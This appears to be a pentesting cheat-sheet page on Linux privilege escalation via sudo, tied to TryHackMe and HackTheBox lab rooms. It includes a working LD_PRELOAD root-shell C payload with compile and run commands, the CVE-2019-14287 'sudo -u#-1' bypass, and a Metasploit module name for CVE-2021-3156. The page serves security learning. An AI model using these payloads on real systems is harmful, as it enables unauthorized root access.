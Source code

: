 # sudo

[Go back](../index.md#linux-privilege-escalation-)

An excellent reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER) (1.9k ⭐).

<hr class="sep-both">

## Administrative privileges

[![linprivesc](../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![picklerick](../../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![linprivesc](../../../_badges/thm-p/linprivesc.svg)](https://tryhackme.com/room/linprivesc#task-12)
[![wgelctf](../../../_badges/thm-p/wgelctf.svg)](https://tryhackme.com/room/wgelctf)
![nibbles](../../../_badges/htb-p/nibbles.svg)
![getsimplecms](../../../_badges/htb-p/getsimplecms.svg)

<div class="row row-cols-md-2"><div>

If you have [administrative privileges](/operating-systems/linux/_knowledge/index.md#sudo), you can list them with:

```ps
$ sudo -nl # without a password
$ sudo -l # with a password
```

The first section is about settings and environment variables that may be exploited such as [LD_PRELOAD](#ldpreload).

```text!
Matching Defaults entries for [...]:
    [...] # something here
```
</div><div>

The second section is about your [sudoers](/operating-systems/linux/env/files/index.md#etcsudoers) rights. Such commands may be exploited to get root, search the command on [GTOBins #sudo](gtfobins.md).

```text!
User [...] may run the following commands on [...]:
    (root) /bin/tar
```

➡️ For instance, the user below can run `/bin/tar` as `root`.
</div></div>

<hr class="sep-both">

## LD_PRELOAD

[![linprivesc](../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)

<div class="row row-cols-md-2"><div>

If there is `env_keep += LD_PRELOAD` in the permissions displayed by `sudo -l`, then it means that the user can run some code before executing a command as administrator.

The code below replace the gid/uid of the user running the command with `0` <small>(root)</small>. Then, it pops a bash shell <small>(as root!)</small>.

```c
void _init() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
</div><div>

Compile it with

```
$ cd /tmp
$ gcc -shared -fPIC init.c -o init.so
```

Then, call the command that you could run as administrator <small>(`tar` here)</small>, while setting the variable path to your script:

```bash!
$ sudo LD_PRELOAD=/tmp/init.so tar
```

💎 Congratulations, you are `root` now!
</div></div>

<hr class="sep-both">

## Well-known Vulnerabilities

<div class="row row-cols-md-2"><div>

#### sudo before 1.8.28 (CVE-2019-14287)

[![agentsudoctf](../../../_badges/thm-p/agentsudoctf.svg)](https://tryhackme.com/room/agentsudoctf)

If a user was allowed to run one specific command using sudo, such as `tar`, then it was possible for any other user to impersonate the authorized user, and run the command as root too.

```ps
$ sudo -u#-1 tar [...]
$ sudo -u#4294967295 tar [...]
```

💎 Congratulations, you are `root` now!
</div><div>

#### sudo before 1.9.5p2 (CVE-2021-3156)

[![metasploitframework](../../../_badges/htb/metasploitframework.svg)](https://academy.hackthebox.com/course/preview/using-the-metasploit-framework)

See metasploit module: `exploit/linux/local/sudo_baron_samedit`.
</div></div>
